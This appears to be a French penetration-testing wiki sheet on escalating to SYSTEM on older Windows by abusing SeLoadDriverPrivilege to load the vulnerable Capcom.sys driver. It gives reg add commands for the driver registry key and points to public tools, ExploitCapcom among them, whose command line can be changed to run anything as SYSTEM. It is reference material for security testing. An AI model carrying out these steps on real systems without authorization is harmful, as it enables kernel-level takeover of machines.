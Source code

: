 ```yaml
---
title: Exploitation Capcom
description: Exploiter le privilège SeLoadDriverPrivilege pour charger le driver Capcom.sys et exécuter du code avec les privilèges SYSTEM
published: true
date: 2024-10-25T20:37:01.418Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-07-19T11:04:55.005Z
---
```


# Introduction

Exploiter le privilège SeLoadDriverPrivilege pour charger le driver Capcom.sys et exécuter du code avec les privilèges SYSTEM.

> Depuis Windows 10 Version 1803, le privilège SeLoadDriverPrivilege n'est plus exploitable, depuis qu'il n'est plus possible d'inclure des references aux clés de registre depuis HKEY_CURRENT_USER (HKCU)
> {.is-danger}

# Méthode manuelle

## Enregistrer le driver dans le registre

Enregistrer le driver capcom.sys sur la cible depuis https://github.com/FuzzySecurity/Capcom-Rootkit

Créer une nouvelle clé dans le registre à l'emplacement **HKCU\System\CurrentControlSet\CAPCOM**. Dans cette clé ajouter une entrée de type **REG_SZ** (chaine) nommé **ImagePath** avec comme valeur l'emplacement du driver **Capcom.sys**.

`reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\[volume]:\[chemin du fichier Capcom.sys]"`

> Le début du chemin `\??\` indique que la valeur fait référence à un objet NT (voir https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c)
> {.is-info}

Ajouter une entrée dans la clé **HKCU\System\CurrentControlSet\CAPCOM** de type **REG_DWORD** nommé **Type** avec comme valeur **1**.

`reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1`

## Introduction EnableSeLoadDriverPrivilege

Une fois le driver Capcom.sys spécifié dans le registre, il est possible d'activer le privilège SeLoadDriverPrivilege dans le processus en cours et de charger le driver Capcom.sys dans le kernel.

> EnableSeLoadDriverPrivilege est disponible ici: https://github.com/3gstudent/Homework-of-C-Language/blob/master/EnableSeLoadDriverPrivilege.cpp
> {.is-info}

> Il ne faut pas oublier que le code source C++ doit être compilé
> {.is-warning}

> Il est possible d'utiliser la commande [driverquery](/Commandes/Windows/driverquery) pour voir si le driver est chargé ou non.
> {.is-info}

## Syntaxe EnableSeLoadDriverPrivilege

`EnableSeLoadDriverPrivilege.exe`

# Méthode Automatique

Il est possible d'utiliser EoPLoadDriver pour activer le privilège SeLoadDriverPrivilege dans le processus, créer les clés dans le registre et charger le driver avec la fonction SeLoadDriverPrivilege.

> Voir [EoPLoadDriver](/Outils/Windows/EoPLoadDriver)
> {.is-info}

# Exploitation

## Introduction ExploitCapcom

ExploitCapcom permet de lancer des commandes en utilisant le driver Capcom et la fonctionnalité de voler le token pour avoir accès au privileges SYSTEM.

> ExploitCapcom est disponible ici: https://github.com/tandasat/ExploitCapcom
> {.is-info}

> Il ne faut pas oublier que le code source C++ doit être compilé
> {.is-warning}

## Modification d'exécution d'ExploitCapcom

Par défaut, ExploitCapcom.exe lance une console avec les privilèges SYSTEM. Il est possible de changer cela avant la compilation en modifiant la ligne 410 https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp#L410

`TCHAR CommandLine[] = TEXT("[Commande]");`

## Syntaxe ExploitCapcom

`ExploitCapcom.exe`
